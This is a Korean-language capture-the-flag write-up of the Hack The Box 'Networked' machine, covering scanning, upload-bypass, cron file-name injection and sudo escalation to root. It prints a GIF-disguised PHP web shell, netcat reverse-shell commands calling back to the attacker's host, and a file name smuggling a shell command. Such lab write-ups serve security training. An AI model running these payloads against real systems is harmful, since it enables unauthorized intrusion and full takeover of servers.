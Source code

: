 ```yaml
---
layout: article
title: "Hack The Box: Networked write-up"
excerpt: "Hack The Box: Networked write-up"
date: 2019-09-24 18:23:00 +0900
author: SystemaHacker
categories: [Write-up]
tags: [HackTheBox, Pen-Testing, Write-up]
permalink: /writeup/networked
---
```


## 개요

![Hack The Box Networked card info](/assets{{ page.permalink }}/networked.png)

|OS|Linux|
|Difficulty|Easy|
|Points|20|
|Release|24 Aug 2019|
|IP Address|10.10.10.146|

---
## Nmap 스캔
주어진 아이피 주소를 이용하여 네트워크 스캔을 진행하였다.   

```
attacker$ nmap -A -v -sV --script vuln 10.10.10.146
PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 7.4 (protocol 2.0)
80/tcp  open   http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
| http-enum:
|   /backup/: Backup folder w/ directory listing
|   /icons/: Potentially interesting folder w/ directory listing
|_  /uploads/: Potentially interesting folder w/ directory listing
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
443/tcp closed https
Nmap done: 1 IP address (1 host up) scanned in 63.85 seconds
```

포트 스캔이 완료된 후   
22번 포트에서 ssh서버   
80번 포트에서 아파치 웹 서버를 발견하였다.   
웹 서버에서 디렉터리들을 발견하였다.

- /backup/
- /icons/
- /uploads/

---
## 조사
[http://10.10.10.146/backup](http://10.10.10.146/backup) 주소로 접속 해보니 백업 압축 파일을 발견하였다.   
압축 해제 후 나온 PHP 코드를 분석 하였다.   

```
-rw-r--r--  1 attacker attacker  229 Jul  9 20:33 index.php
-rw-r--r--  1 attacker attacker 2001 Jul  2 20:38 lib.php
-rw-r--r--  1 attacker attacker 1871 Jul  2 21:53 photos.php
-rw-r--r--  1 attacker attacker 1331 Jul  2 21:45 upload.php
```

---
## PHP 웹쉘 코드 작성
[upload.php](/assets{{ page.permalink }}/upload.php) 파일 분석 후 예상되는 이미지 업로드 취약점을 토대로 PHP 웹쉘을 작성하였다.   
코드 이전에 `GIF89a?` 를 입력함으로써 [이것이 이미지 파일이라고 인식시켜 악성코드를 업로드](https://asec.ahnlab.com/ko/18127/)할 것이다.  

[phpshell.php](/assets{{ page.permalink }}/phpshell.php)
```
GIF89a?
<?php
system( $_GET[cmd] );
?>
```

물론 파일 확장자를 `.gif`로 만들어놓았다.

---
## 웹 권한 탈취
<!--
업로드 페이지에서 이미지를 업로드 하는 모습.   
[http://10.10.10.146/upload.php](http://10.10.10.146/upload.php)
![업로드 페이지에서 이미지를 업로드 하는 모습.](/assets{{ page.permalink }}/1.png)   

업로드 페이지에서 업로드 완료 메시지가 뜬 모습.   
![업로드 페이지에서 업로드 완료 메시지가 뜬 모습.](/assets{{ page.permalink }}/2.png)   

갤러리 페이지에서 악성코드가 업로드된 것을 확인하는 모습.   
[http://10.10.10.146/photos.php](http://10.10.10.146/photos.php)
![갤러리 페이지에서 악성코드가 업로드된 것을 확인하는 모습.](/assets{{ page.permalink }}/3.png)   
-->

[http://10.10.10.146/upload.php](http://10.10.10.146/upload.php) 페이지에서 PHP 웹쉘을 업로드하는데 성공하였다.   

```
attacker$ nc -lvp 2021
```

웹 권한의 쉘을 탈취하기 위해 필자(공격자) PC에서 netcat 리스닝 2021 포트를 열었다.   
PHP 웹쉘이 업로드 된 URL에 GET 요청으로 cmd 파라미터에 원하는 명령어를 전달하면.   

```
http://10.10.10.146/uploads/10_10_12_226.gif?cmd=nc 10.10.12.226 2021 -c bash
```
   
```
Connection from 10.10.10.146:41584
```

공격자 PC에서 Reverse Shell이 연결된것을 확인할 수 있다.   

```
apache$ whoami
apache
```

apache 권한의 쉘을 탈취하였다.   

---
## 유저 권한 탈취
guly 권한을 탈취하기 위해 /home/guly 디렉토리를 살펴보자.   
```
apache$ ls -al /home/guly
-r--r--r--. 1 root root 782 Oct 30  2018 check_attack.php
-rw-r--r--  1 root root  44 Oct 30  2018 crontab.guly
-r--------. 1 guly guly  33 Oct 30  2018 user.txt
```

[check_attack.php](/assets{{ page.permalink }}/check_attack.php), [crontab.guly](/assets{{ page.permalink }}/crontab.guly) 파일을 추가로 발견하였다.

[crontab.guly](/assets{{ page.permalink }}/crontab.guly) Crontab을 이용하여 매 3분마다 [check_attack.php](/assets{{ page.permalink }}/check_attack.php)를 실행시키는 듯 하다.   

[check_attack.php](/assets{{ page.permalink }}/check_attack.php) 파일을 확인 시 Uploads 디렉터리에서 파일 이름을 조금만 손보면 권한 상승이 가능할것 같다.   


/var/www/html/uploads/ 디렉토리에 `;`를 포함한 이름의 파일을 생성하면 원하는 명령을 실행할 수 있다.   

```
echo "" > ./";nc 10.10.12.226 2022 -c bash"
```

파일 이름이 잘 설정 되었는지 확인해보자.   
```
apache$ ls -al
drwxrwxrwx. 2 root   root     266 Sep 13 06:38 .
drwxr-xr-x. 4 root   root     103 Jul  9 13:30 ..
-rw-r--r--  1 apache apache    40 Sep 13 06:26 10_10_12_226.php.gif
-rw-r--r--. 1 root   root    3915 Oct 30  2018 127_0_0_1.png
-rw-r--r--. 1 root   root    3915 Oct 30  2018 127_0_0_2.png
-rw-r--r--. 1 root   root    3915 Oct 30  2018 127_0_0_3.png
-rw-r--r--. 1 root   root    3915 Oct 30  2018 127_0_0_4.png
-rw-r--r--  1 apache apache     1 Sep 13 06:38 ;nc 10.10.12.226 2022 -c bash
-r--r--r--. 1 root   root       2 Oct 30  2018 index.html
```
2022번 포트로 리스닝 nc를 열어놓으면 guly 유저 권한으로 상승 가능할것이다.   
다음 Crontab 스크립트가 돌아올 3분동안 멍이나 때리고 있자.   

```
Connection from 10.10.10.146:36230
```

예상대로 3분 안에 공격자 PC의 2022 포트로 연결이 들어왔다.   
```
guly$ whoami
guly
```

guly 유저 권한을 탈취하였다.   

User flag 확인   
```
guly$ cat user.txt
```

---
## Root 권한 탈취
root 권한을 탈취하기 위해서 권한 상승에 도움을 줄만한 파일들을 탐색해보았다.   
```
guly$ sudo -l
Matching Defaults entries for guly on networked:
User guly may run the following commands on networked:
(root) NOPASSWD: /usr/local/sbin/changename.sh
```
비밀번호 없이 실행할 수 있는 root 권한 파일을 발견하였다.    

[changename.sh](/assets{{ page.permalink }}/changename.sh)
```
guly$ ls -al /usr/local/sbin/changename.sh
-rwxr-xr-x 1 root root 422 Jul  8 12:34 /usr/local/sbin/changename.sh
```

/usr/local/sbin/changename.sh 파일을 이용하면 root 권한을 탈취 할 수 있을것이다.   

```
guly$ cat /usr/local/sbin/changename.sh
#!/bin/bash -p
cat &gt; /etc/sysconfig/network-scripts/ifcfg-guly &lt;&lt; EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp=&quot;^[a-zA-Z0-9_\ /-]+$&quot;

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
	echo &quot;interface $var:&quot;
	read x
	while [[ ! $x =~ $regexp ]]; do
		echo &quot;wrong input, try again&quot;
		echo &quot;interface $var:&quot;
		read x
	done
	echo $var=$x &gt;&gt; /etc/sysconfig/network-scripts/ifcfg-guly
done

/sbin/ifup guly0
```

마지막 취약한 부분을 이용하면 root 권한으로 bash shell을 실행 할 수 있을것같다.   
```
guly$ sudo /usr/local/sbin/changename.sh
interface NAME:
asd /bin/bash
interface PROXY_METHOD:
asd
interface BROWSER_ONLY:
asd
interface BOOTPROTO:
asd
```

```
root$ whoami
root
```

root 권한을 탈취하였다.   
Root flag 확인   
```
root$ cat /root/root.txt
```

---
## 마치며
HackTheBox.EU 플랫폼의 입문자용 난이도의 Machine으로 웹 서버 권한 shell 탈취.   
유저 권한으로 등록된 Crontab을 이용한 유저 권한 탈취 이후   
비밀번호 없이 실행할 수 있는 root 권한의 bash 스크립트를 이용한 권한 상승까지 복잡하지 않았다.
